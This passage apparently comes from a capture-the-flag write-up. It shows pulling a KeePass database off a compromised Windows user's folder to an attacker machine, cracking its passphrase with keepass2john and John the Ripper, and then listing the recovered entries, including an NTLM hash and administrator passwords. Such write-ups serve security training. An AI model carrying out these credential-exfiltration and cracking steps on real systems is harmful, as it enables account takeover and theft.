 There is a keepass file `CEH.kdbx` in the Documents folder. This database could contain some credentials.

### Cracking the keepass file

Download this file to the attacker box for analisys:

```shell
download C:\users\kohsuke\Documents\CEH.kdbx CEH.kdbx
```

cracking the password of the keepass file :

https://www.thedutchhacker.com/how-to-crack-a-keepass-database-file/

```shell
keepass2john CEH.kdbx > CEH.txt
john --wordlist=/usr/share/wordlists/rockyou.txt CEH.txt
```

Result :

```text
Using default input encoding: UTF-8
Loaded 1 password hash (KeePass [SHA256 AES 32/64])
Cost 1 (iteration count) is 6000 for all loaded hashes
Cost 2 (version) is 2 for all loaded hashes
Cost 3 (algorithm [0=AES 1=TwoFish 2=ChaCha]) is 0 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, 'h' for help, almost any other key for status
moonshine1       (CEH)     
1g 0:00:00:17 DONE (2023-04-19 13:26) 0.05627g/s 3093p/s 3093c/s 3093C/s nana09..monyong
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

The `CEH.kdbx` passphrase is `moonshine1`.

Using keppassx on my host, I can open this database, and list all entries with credentials :

| Entry | username | passowrd |
| --- | --- | --- |
| Backup stuff      | ?             | aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00 |
| Bank of America   | Michael321    | 12345 |
| DC Recovery PW    | administrator | S1TjAtJHKsugh9oC4VZl |
| EC-Council        | hackerman123  | pwndyouall! |
| It's a secret     | admin         | F7WhTrSFDKB6sxHU1cUn |
| Jenkins admin     | admin         | |
| Keys to the kingdom | bob         | lCEUnYPjNfIuPZSzOySA |
| Walmart.com       | anonymous     | Password |
